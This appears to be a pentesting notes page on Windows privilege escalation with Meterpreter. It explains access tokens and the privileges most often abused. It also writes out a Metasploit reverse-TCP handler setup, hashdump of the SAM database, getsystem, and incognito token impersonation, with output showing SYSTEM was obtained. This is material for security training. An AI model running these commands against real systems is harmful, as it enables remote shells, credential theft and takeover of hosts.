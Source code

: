 # Meterpreter Privesc

To make the privilege escalation easier, We can switch to a meterpreter shell for ease of access of commands and run/load extensions and post-exploitation tools.

Ensure Handler is setup:

```
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 10.10.10.10 
set LPORT 1234
run
```

Privilege Commands

```
Dumps the contents of the SAM database
hashdump
Attempt to elevate your privilege to that of local system.
getsystem    
```

### Token impersonation

Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).

This access token consists of:

* user SIDs(security identifier)
* group SIDs
* privileges

{% embed url="https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens" %}

There are two types of access tokens:

* primary access tokens: those associated with a user account that are generated on log on
* impersonation tokens: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process

For an impersonation token, there are different levels:

* SecurityAnonymous: current user/client cannot impersonate another user/client
* SecurityIdentification: current user/client can get the identity and privileges of a client, but cannot impersonate the client
* SecurityImpersonation: current user/client can impersonate the client's security context on the local system
* SecurityDelegation: current user/client can impersonate the client's security context on a remote system

where the security context is a data structure that contains users' relevant security information.

The privileges of an account(which are either given to the account when created or inherited from a group) allow a user to carry out particular actions. Here are the most commonly abused privileges:

* SeImpersonatePrivilege
* SeAssignPrimaryPrivilege
* SeTcbPrivilege
* SeBackupPrivilege
* SeRestorePrivilege
* SeCreateTokenPrivilege
* SeLoadDriverPrivilege
* SeTakeOwnershipPrivilege
* SeDebugPrivilege

```
load incognito
list_tokens -g 
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
```

![](<../.gitbook/assets/image (45).png>)

